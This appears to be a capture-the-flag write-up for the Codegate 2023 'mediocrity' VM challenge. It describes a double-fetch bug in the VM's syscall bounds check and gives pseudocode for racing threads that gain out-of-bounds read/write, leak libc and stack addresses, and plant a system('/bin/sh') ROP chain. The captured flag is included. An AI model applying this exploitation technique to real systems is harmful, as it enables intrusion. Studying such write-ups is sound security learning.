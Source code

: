 # mediocrity

Mediocrity is a vm based challenge that takes a set of instructions to run, and simulate them in a child process. Due to the forking nature, the challenge does allow us to run multiple set of instructions at a time without worrying about not crashing the process.

The VM has a set of normal arithmetic, boolean, control flow, syscall and thread operations. Supported syscall are exit, read and write and thread operations is only to spawn thread/clone. Implemented VM also supports multiple mode of operation - register and memory.

### BUG

While running/handling read/write syscalls, program checks if the `buffer + size` to read/write are within the bounds of buffer or not. If buffer or buffer + size is not within the range of `0` to `0x600`, then it exits. However, for the memory mode operation, it does a double fetch of the buffer address (index) and size (to do the check and then to use it), which results in a double fetch vulnerability.

### Exploit

To exploit the bug, we repeatedly trigger the double-fetch vulnerability from the other thread multiple times to get an OOB read/write. To help with generating vm code for exploit, we wrote a simple assembler code which can be found in [vmasm.py](vmasm.py).

Following is the details of exploit:

 1. Run a sample program to set up the heap (in retrospect, I am not sure if this is required or not).
 2. Run the following program to leak heap and libc address from the heap. We basically spawn a thread and repeatedly call write syscall with valid arguments set up for memory mode addressing, while other thread tries to modify valid arguments in memory (to do OOB read). Following is the c equivalent of the asm. (I still don't know how I got a mmaped pointer in heap memory, but it was at constant offset from libc base).

 ```

  fn _start() {
     *(u64*)&mem[0] = 1             // fd
     *(u64*)&mem[8] = 0x580         // buf
     *(u64*)&mem[0x10] = 0x80       // len

     // setup write r0, r1, r2 and r3 to 1, 0, 8 and 0x10 respectively (for syscall memory mode operation)

     spawn_thread(thread1)

     while (1) {
         ret = sys_write(mem_mode, r1, r2, r3);
         if (ret == 0xe10) { // if OOB read succeeds, we will write 0xe10 bytes to fd 1
             break;
         }
     }

     sys_exit;
  }

  fn thread1() {
      while (1) {
          *(u64*)&mem[8] = -0x80 // relative offset to start writing to fd 1 from
          *(u64*)&mem[10] = 0xe10 // size to write

          *(u64*)&mem[8] = 0x580
          *(u64*)&mem[10] = 0x10
      }
  }

 ```
 3. Once we get the heap and libc leak, we can reuse similar code to leak environ variable in libc (and thus read stack pointer).
 4. Using the above code again, we read the stack (from `environ - 0x800`) to find the address where return value for `run_program` (or `sub_2fd2`) is saved on the stack.
 5. Using the target address, we now write a simple `system('/bin/sh')` rop-chain and execute shell when we return back after executing current `syscall` instruction. We do this in the following steps:
   - setup memory to do `read(0, 0x5f0, 8)` using memory mode syscall operation.
   - spawn a thread that will contantly modify the memory for buf addr from `0x5f0` to address in state where buffer/memory pointer is saved and back
     - we write to `&buffer_ptr - 0x28` mainly because we setup initial part of memory `0:0x18` for syscall operation
   - on the original thread, read repeatedly until we win the race and modify buffer pointer.
   - signal the spawned thread to stop
   - synchronize with the user (exploit script) to stop sending new address to overwrite buffer address with
   - read stack address to modify buffer again (but we don't need to race anymore as our memory/buffer overlaps with the vm state itself)
   - read/write the rop-chain on the stack
   - we should have shell now

 ```
 fn _start() {
    *(u64*)&mem[0x10] = 0          // fd
    *(u64*)&mem[0] = 0x5f0         // buf
    *(u64*)&mem[8] = 0x8           // len

    spawn_thread(thread1);

    while(1) {
        // setup args for read syscall using memory mode operation
        r0, r1, r2, r3 = 0, 0x10, 0, 8
        sys_read(mem_mode, r1, r2, r3);
        if (*(u64*)&mem[0x28] == mem) {
            break;
        }
    }

    *(u64*)&mem[8] = 0

    // synchornize with user/exploit script
    sys_write(reg_mode, 1, "hgfedcba", 8);

    *(u64*)&mem[0x18] = 0;
    while (1) {
        sys_read(reg_mode, 0, &mem[0x18], 8);
        if (*(u64*)&mem[0x18] == 'HGFEDCBA') {
            break;
        }
    }

    sys_read(reg_mode, 0, &mem[0x28], 8);
    sys_read(reg_mode, 0, &mem[0], 0x30);
    // no return as we get shell

    sys_exit // in case we didn't
 }


 fn thread() {
    while(*(u64*)&mem[8] != 0) {
          *(u64*)&mem[0] = -0x68

          *(u64*)&mem[0] = 0x5f0
    }

    while(1);
 }
 ```

Note: the exploit is not always reliable and might lead to a environ set to 0 if the mmap'd address we leaked isn't at the offset we used. However rerunning the exploit works fine.

**flag:** `codegate2023{5eb733d31e52b17829fbea79e377e652990ff021f3cd68a693c1dc0aa606c4ce6e85fe09f9c6fde560785f510e6047404ee336b1}`
